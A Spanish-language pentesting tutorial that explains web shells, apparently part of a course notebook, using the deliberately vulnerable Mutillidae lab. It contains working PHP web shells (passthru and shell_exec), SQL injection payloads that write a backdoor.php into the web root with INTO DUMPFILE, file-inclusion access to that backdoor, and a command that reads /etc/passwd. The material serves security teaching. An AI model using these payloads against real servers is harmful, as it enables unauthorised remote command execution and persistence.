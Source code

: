 # WebShells

Las `WebShells` no es una vulnerabilidad como tal, si no que es un `script` un fragmento de codigo que vamos a injectar en la maquina que esta alojando la aplicacion web de manera que nosotros podamos ganar persistencia en esa maquina, como la ejeccion remota de comandos, etc... Una `WebShell` seria el `payload` (Transladandolo a esos coneptos en los que hablabamos en la explotacion de vulnerabilidades en `hosts`) aprovechando una vulnerabilidad de manera que nosotros podamos injectar ese codigo dejar ese ficherito en el web server y despues poder ejecutar comandos remotamente, ganar persistencia, etc...

La tipica `WebShell` que se suele crear en un fichero seria la siguiente:

```php
<?php echo passthru($_GET['cmd']); ?>
```

Es un codigo en `PHP` que lo unico que hace es recivir un comando/parametro en este caso mediante la URL con la condicion `GET` y lo que hace es que ejecuta ese comando en el sistema operativo de la maquina en la que este alojando este fichero, si conseguimos subir este fichero al web server y accedemos a el mediante la URL y metemos como parametro el llamado `cmd` el cual le pusimos en el fichero seguido de un comando del sistema como `ls, cat, etc...` se nos va a ejecutar en el sistema y nos mostrara la informacion por pantalla.

Muchas veces las organizaciones en vez de tener limitada la lectura de ficheros mediante `mysql` la deslimitan para que pueda tener mas funcionalidades y a causa de esto, nosotros como atacantes podemos aprovechar eso, por lo que vamos a simularlo, haciendo los siguientes cambios en la maquina `ubuntu`.

Abrimos el siguiente archivo mediante la terminal:

```shell
nano /etc/mysql/mysql.conf.d/mysqld.cnf

#Dentro del nano
[mysqld]

secure-file-priv = ""
```

Y añadimos esa linea debajo de `[mysqld]`.

Ahora nos vamos a la siguiente direccion:

```shell
cd /var/www/html
chown -R mysql:mysql mutillidae
chown -R mysql:mysql mutillidae/*
```

Y le damos permisos a `mysql` para la pagina de `mutillidae`.

Despues una vez echo esto, lo que hemos permitido es que la base de datos pueda leer cualquier fichero del servidor, cosa muy habitual en empresas o demas organizaciones, incluso en muchas de ellas vienen por defecto.

Por lo que vamos a escribir con esta vulnerabilidad un `WebShell` y despues con la tecnica del `Path Traversal` vamos acceder a el.

Vamos a irnos en la pagina de `Mutillidae` a cualquier campo que tenga la vulnerabilidad de `SQL Injection` y vamos a escribir la siguiente sentencia:

```
User: ' UNION select null,null,null,null,null,null,null,null,null,'<?php echo passthru($_GET["cmd"]); ?>' INTO DUMPFILE '../../../../../var/www/html/mutillidae/src/backdoor.php'-- -
Pass: null
```

Lo que estamos haciendo aqui es que esa `WebShell` de `PHP` la estamos volcando con `INTO DUMPFILE` a un fichero con la siguiente ruta mostrada y lo llamaremos al archivo `backdoor.php`.

Pero para hacerlo mejor, pondremos el siguiente `WebShell` mas que uno simple:

```
User: ' UNION select null,null,null,null,null,null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><table style="margin-left:auto; margin-right:auto;"><tr><td colspan="2">Please enter system command</td></tr><tr><td></td></tr><tr><td class="label">Command</td><td><input type="text" name="pCommand" size="50"></td></tr><tr><td></td></tr><tr><td colspan="2" style="text-align:center;"><input type="submit" value="Execute Command" /></td></tr></table></form><?php echo "<pre>";echo shell_exec($_REQUEST["pCommand"]);echo "</pre>"; ?>' INTO DUMPFILE '../../../../../var/www/html/mutillidae/src/backdoor.php'-- -
Pass: null
```

Hace el mismo funcionamiento que el anterior, pero es mejorado, que esto lo tendremos en la ayuda de la propia pagina de `Mutillidae`.

Y con esto ya tendriamos el fichero subido en la pagina.

Y ahora utilizando la tecnica de `Path Traversal` haremos lo siguiente para meternos en dicho fichero:

```
URL = http://<IP>/mutillidae/src/index.php?page=backdoor.php
```

<figure><img src="../../.gitbook/assets/image (78) (1).png" alt=""><figcaption></figcaption></figure>

Nos aparecera como un recuadro en el que podremos insertar un comando que se ejecutara en el sistema.

Si por ejemplo queremos ver el archivo de `passwd` pondremos `cat /etc/passwd`:

<figure><img src="../../.gitbook/assets/image (79) (1).png" alt=""><figcaption></figcaption></figure>

Y podremos verlo en la propia pagina.
